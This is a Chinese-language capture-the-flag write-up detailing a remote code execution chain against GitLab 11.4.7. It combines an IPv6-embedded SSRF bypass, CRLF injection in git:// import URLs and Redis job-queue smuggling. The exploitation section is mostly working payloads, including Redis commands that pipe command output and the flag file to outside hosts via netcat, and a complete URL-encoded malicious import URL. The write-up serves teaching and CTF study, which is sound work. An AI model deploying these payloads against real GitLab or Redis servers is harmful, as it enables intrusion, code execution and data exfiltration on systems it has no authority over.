

# gitlab-11.4.7远程代码执行漏洞及exp史诗级详细剖析

## TL;DR

git://协议中的CLRF注入将RCE中的[IPv6/IPv4地址嵌入](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)链。

## youtube vedio by liveoverflow

* [GitLab 11.4.7 Remote Code Execution-Real World CTF 2018](https://www.youtube.com/watch?v=LrLJuyAdoAg&feature=youtu.be)

## 说明

在[real world CTF](https://realworldctf.com/)上，一个叫做flaglab的有趣的web挑战。描述说:

	"You might need a 0day"

有一个挑战的链接，还有一个`docker-compose.yml`文件的下载链接。在访问挑战站点时，`GitLab`表示欢迎。`docker-compose.yml`文件可以用来设置这个实例的本地版本。在`docker-compose.yml`,` docker`映像被设置为`gitlab/gitlab-ce:11.4.7-ce.0`。在对`gitlab`版本做谷歌搜索时，偶然发现了一篇关于`gitlab`补丁发布的博客文章，它似乎是最新的版本——该博客文章创建于2018年11月21日，CTF是在2018年12月1日举行。因为`GitLab`有庞大的代码库，所以认为根本不可能在它身上找到一天的时间，这只是在浪费时间……

但事实证明，在这些假设上是错误的。一些来自`RPISEC`的人说，它不是最新版本–有一个新版本11.4.8，并且新版本的提交历史显示了几个安全补丁。其中一个漏洞是`“Webhooks中的SSRF”`，这是`Chaitin Tech`的`nyangawa`报告的(Chaitin Tech也是组织real world CTF的公司)。

## 设置

现在开始设置`GitLab`漏洞版本的本地副本。可以从`docker-compose.yml`文件开始。

```yaml
web:
  image: 'gitlab/gitlab-ce:11.4.7-ce.0'
  restart: always
  hostname: 'gitlab.example.com'
  environment:
    GITLAB_OMNIBUS_CONFIG: |
      external_url 'http://gitlab.example.com'
      redis['bind']='127.0.0.1'
      redis['port']=6379
      gitlab_rails['initial_root_password']=File.read('/steg0_initial_root_password')
  ports:
    - '5080:80'
    - '50443:443'
    - '5022:22'
  volumes:
    - './srv/gitlab/config:/etc/gitlab'
    - './srv/gitlab/logs:/var/log/gitlab'
    - './srv/gitlab/data:/var/opt/gitlab'
    - './steg0_initial_root_password:/steg0_initial_root_password'
    - './flag:/flag:ro'
```

从上面的`YAML`文件中，可以得出以下结论:

* 使用的`docker`映像是GitLab Community Edition 11.4.7 GitLab -ce:11.4.7-ce.0
* `Redis`服务器运行在6379端口，它正在监听本地主机
* 使用一个名为`steg0_initial_root_password`的文件设置`rails initial_root_password`
* 有一些端口从`docker`容器映射到我们的机器，这将应用程序暴露在容器外供我们操作。我们将使用运行在端口5080上的HTTP服务。
* 此外，还有卷，它挂载`docker`容器内的本地文件和文件夹。例如，机器上的`./srv/gitlab/logs`将被挂载到`docker`容器内的`/var/log/gitlab`。密码文件和`flag`也被复制到容器中

使用以下命令创建这些所需的文件和文件夹:

```shell
# Create required folders for the gitlab logs, data and configs. leave it empty
mkdir -p ./srv/gitlab/config ./srv/gitlab/data ./srv/gitlab/logs

# Create a random password using python
python3 -c "import secrets; print(secrets.token_urlsafe(16))" > ./steg0_initial_root_password
# ==OR==
# Choose your own password
echo "my_sup3r_s3cr3t_p455w0rd_4ef5a2e1" > ./steg0_initial_root_password

# Create a test flag
echo "RWCTF{this_is_flaglab_flag}" > ./flag
```

现在有了所需的文件和文件夹，可以使用以下命令启动docker容器。

```shell
$ docker-compose up
```

下载基本映像并构建`gitlab`实例的过程可能需要几分钟。在您开始查看一些日志之后，应该能够浏览到

	http://127.0.0.1:5080/ 

以获得易受攻击的`GitLab`版本。

现在是时候配置`chrome`浏览器来使用代理服务器了。你可以在设置中手动修改，也可以通过命令行操作，这样更方便。

```shell
/path/to/chrome --proxy-server="127.0.0.1:8080" --profile-directory=Proxy --proxy-bypass-list=""
```

遇到过`Burp`套件代理无法拦截本地主机请求的问题，即使旁路列表是空的。因此，一个快速的解决方法是在`hosts`文件中添加一个条目，如下所示。

	127.0.0.1     localhost.com

现在浏览

	http://localhost.com:5080

通过`Burp`套件代理访问`GitLab`。这就是所有的设置!

## bugs

正如已经知道的，当时认为11.4.7是`GitLab`的最新版本，但实际上，有一个更新的版本11.4.8，在提交中有许多安全补丁。其中一个漏洞与SSRF有关，它甚至提到了`Chaitin Tech`，该公司负责托管`real world CTF`。此外，还知道`flag`文件位于/(文件系统的/root)，因此需要一个任意文件读取或远程代码执行漏洞。现在来看看针对[SSRF和其他潜在bug](https://fdlucifer.github.io/2020/12/17/gitlab-remote-code-execution/)的那些[补丁](https://gitlab.com/gitlab-org/gitlab-foss/-/commits/v11.4.8)。在顶部，将发现3个与安全相关的提交。


在`Webhooks`中有`SSRF`，也有`XSS`，但它不是那么有趣，最后，在有`CRLF`注入`(Carriage-Return/Line-Feed)` ，它基本上是换行注入。如果查看`SSRF`问题的修复并向下滚动一点，将看到有一些单元测试可以确认该问题的修复。这些测试告诉如何利用漏洞，这正是想要的。看看一些测试用例，显然，嵌入`IPv4`地址的特殊`IPv6`地址可以绕过`SSRF`检查。

	# SSRF protection Bypass
	https://[0:0:0:0:0:ffff:127.0.0.1]

另一个问题是项目钩子中的`CRLF`漏洞，向下滚动到测试用例，可以看到它只是带换行的`url`。要么是`URL`编码的，要么就是普通的换行符。现在的问题是，这些漏洞能帮助利用`GitLab`来获得`flag`吗?通过链接这两个`bug`，可以得到一个远程代码执行。这实际上是一个典型的安全问题。基本上，`SSRF`或服务器端请求伪造用于针对本地内部`Redis`数据库，该数据库广泛用于不同类型的工作者。因此，如果可以推出一个恶意的`worker`，可能会以一个远程代码执行漏洞而告终。事实上，`GitLab`之前已经被这样利用过好几次了，有很多类似的`bug bounty`文章。不记得第一次使用这种技术是在哪里，但记得是[@Agarri_FR](https://twitter.com/agarri_fr/)在2015年发的[推特](https://twitter.com/agarri_fr/status/606569097132953602)上说的，2014年他也有一篇[博文-Trying to hack Redis via HTTP requests](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)。确实遇到了很多关于bug的赏金文章，所以每个对网络安全感兴趣的人都应该知道这个。

## 漏洞利用

现在看看有趣的东西，首先，看看是否能在某处触发`SSRF`。首先，考虑将`webhook`(用于在储存库中触发任何事件时, 向`URL`发送请求)作为目标，就像这里提到的那样。然而，当点击创建一个新项目时，看到了多种导入项目的方法，其中一种是通过`URL repo`，它基本上会在你指定`URL`时获取`repo`。可以在`http://`，上导入`repo https://` 和 `git://`。因此，为了测试这一点，可以尝试使用以下`URL`导入`repo`。


但是得到的错误是`“Import URL is blocked: Requests to localhost are not allowed”`。

现在，可以尝试使用特殊的`IPv6`地址绕过。如果把导入`URL`替换成下面的。

	http://[0:0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf.git

在使用这个`URL`导入之前，需要一个服务器监听端口1234以确认`SSRF`。为此，可以在`docker`容器上获得一个`root shell`来安装`netcat`，然后监听端口1234以查看是否触发了`SSRF`。首先，继续并列出所有正在运行的`Docker`容器，以了解应该在哪个容器上安装`shell`。

```shell
# get a list of running docker containers
$ docker ps
CONTAINER ID    IMAGE                           COMMAND    CREATED    STATUS    NAMES
bd9daf8c07a6    gitlab/gitlab-ce:11.4.7-ce.0      ...        ...        ...      ...
```

现在只有一个在运行，是`GitLab 11.4.7`。通过指定容器`ID`，可以使用以下命令获得容器上的`shell`。

```shell
$ docker exec -i -t bd9daf8c07a6 "/bin/bash"
```

这里

* `bd9daf8c07a6`是容器`ID`
* `-i` 的意思是与`/bin/bash`的交互
* `-t` 表示创建`tty`
* `-a` 用于交互的伪终端

现在已经有了`shell`，可以安装`netcat`，这样就可以设置一个简单的服务器来侦听传入的`SSRF`请求。

```shell
root@gitlab:~ apt update && apt install -y netcat
```

设置原始`TCP`服务器非常简单，如下命令所示。

```shell
root@gitlab:~ nc -lvp 1234
```

这里

* `-l` 是要告诉`netcat`必须“听”
* `-v` 是详细输出
* `-p` 指定服务器必须绑定的端口号

现在已经完成了`SSRF`测试设置，然后发出相同的导入请求，看看是否可以触发`SSRF`。此外，与在浏览器中指定`web`应用程序的`URL`不同，可以使用`Burp`套件的中继器根据需要快速修改`HTTP`请求并将其发送出去。要做到这一点，可以修改旧的“通过`URL repo`”请求。可以将`URL`更新为：

	http://[0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf

`git`和项目的名称转换到还不存在的地方，然后发送请求。


可以看到上面的图片,请求被困在`netcat listener`,这证实有`SSRF`可以跟内部服务,在的案例中是当地`netcat`服务器在端口1234上,这意味着可以谈谈内部复述,服务器在端口6379上运行(`docker-compose.yml`中指定)。

但是什么是[Redis](https://redis.io/)以及GitLab如何使用它?

`Redis`是一个内存数据结构存储，用作数据库，缓存和消息代理。`GitLab`以不同的方式使用它，比如存储会话数据、缓存甚至后台作业队列。`Redis`使用了一种简单明了的纯文本协议，这意味着可以直接使用`netcat`连接到`Redis`并开始使用它。

```shell
# quick test with redis
root@gitlab:~ nc 127.0.0.1 6379

blah
- ERR unknown command 'blah'
set liveoverflow test
+OK
asd
- ERR unknown command 'asd'
get liveoverflow
$4
test
```

`Redis`是一个简单的基于`ASCII`文本的协议，但`HTTP`也是一个简单的基于`ASCII`文本的协议。现在，如果尝试向`Redis`发送`HTTP`请求会发生什么?`Redis`会执行命令吗?现在试一试。

```shell
# http request test with redis
root@gitlab:~ nc 127.0.0.1 6379

GET /test/ssrf.git/info/refs?service=git-upload-pack HTTP/1.1
Host: [0:0:0:0:0:ffff:127.0.0.1]:1234
User-Agent: git/2.18.1
Accept: */*
Accept-Encoding: deflate, gzip
Pragma: no-cache
- Err wrong number of arguments for 'get' command

root@gitlab:~
```

出现了一个错误，说`’get’`命令的一些参数是错误的，这是有意义的，因为从前面的例子中，知道`’get’`命令如何在`Redis`中工作。但是，后来又退回了`shell`里，然而从早些时候开始，看到即使有错误`Redis`也不会退出，那么到底发生了什么呢?将原始`HTTP`协议数据逐行粘贴可以得到答案。第二行

	Host: [0:0:0:0:0:ffff:127.0.0.1]:1234

负责`Redis`意外终止连接。这是因为`SSRF`到`Redis`是一个巨大的问题，`Redis`已经实现了一个`fix`。如果字符串`”Host:”`以命令形式呈现给`Redis`服务器，它就会知道这是一个试图私下执行`Redis`命令的`HTTP`请求，并通过关闭连接来停止执行。

只有当能够在第一行(get /test…)和第二行(Host:…)之间获得`payload`时，才能使其工作。既然控制了`HTTP`请求的第一行，可以注入一些新行并添加更多命令吗?

	*cough* CRLF *cough*

在安全发布和提交历史中看到的`CRLF`注入错误，可以使用它! 从提交历史的测试用例中，可以看到注入是非常直接的。例如，仅仅通过添加新行或`URL`编码就可以实现这一目的。

```
http://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git

# Expected to be Converted To 
http://127.0.0.1:333/
test
blah.git
```


然而并没有成功。不确定为什么这不能工作，但是通过将协议从`http://` 更改为`git://` 可以使其工作。

```
# Does work :)
git://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git

# Expected to be Converted To 
git://127.0.0.1:333/
test
blah.git
```

现在已经知道了`Redis`是什么，它在哪里被使用，以及如何使用`CRLF`注入添加新行，接下来可以为`RCE`创建`payload`。这个想法是通过使用`SSRF`漏洞与内部`Redis`服务器通信，并将一个协议`(Redis)`私接到另一个协议`(git://)`中，并获得远程代码执行。

幸运的是，[@jobertabma](https://twitter.com/jobertabma)已经测试出了[payload - Evaluating Ruby code by injecting Rescue job on the system_hook_push queue through web hook](https://hackerone.com/reports/299473)。现在看看。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

如你所知，`Redis`还可以用于后台工作队列。这些工作由[Sidekiq](https://github.com/mperham/sidekiq)处理，它是`ruby`的后台任务处理器。可以查看[sidekiq队列](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/config/sidekiq_queues.yml)的列表，看看是否有可以使用的东西。

```
...
- [default, 1]
- [pages, 1]
- [system_hook_push, 1]
- [propagate_service_template, 1]
- [background_migration, 1]
...
```

`system_hook_push`可以用来处理新作业它和实际`payload`中使用的是一样的。现在，为了执行代码/命令，现在需要一个类来做这件事，把它看作一个小工具。幸运的是，`Jobert`还找到了正确的类–[gitlab_shell_worker.rb](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/app/workers/gitlab_shell_worker.rb)。

```
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```

正如所看到的，这正是一直在寻找的类。现在这个`GitlabShellWorker`被调用时带有一些参数，比如`class_eval`和需要执行的真正的命令，在例子中，如下所示。

```
open('| COMMAND_TO_BE_EXECUTED').read
```

在实际`payload`中，将队列推送到`system_hook_push`并让`GitlabShellWorker`类运行命令。

现在有了探索所需的一切，可以制作出最后的`payload`并执行。在此之前，需要在主计算机(192.168.178.21)上设置一个`netcat listener`来接收该`flag`。

```shell
$ nc -lvp 1234
```

最终的payload如下所示。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
exec
```

有一些重点需要注意:

* 在上面的`payload`中，`redis`命令的每一行前面都需要有一个空格–不知道为什么
* 正在读取`flag`并将其发送给我们的`netcat listener`
* 添加一个额外的`exec`命令，以便第一个命令正确执行，第二个命令将与下一行而不是第一行连接。这样做是为了`payload`的重要部分不会破裂

带有`payload`的最终`import URL`:

* 没有`url`编码之前的`payload`(可根据自己需要修改)

```shell
# 没有url编码之前的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

* `url`编码之后的`payload`

```shell
# url编码之后的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20192%2E168%2E178%2E21%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

现在，如果发送`“Repo by URL”`请求与此`URL`，将得到`flag`!



## 结论和收获

* 挖洞要细心
* 多跟踪大牛的twitter保存经验和payload

## 参考

https://fdlucifer.github.io/2020/12/17/gitlab-remote-code-execution/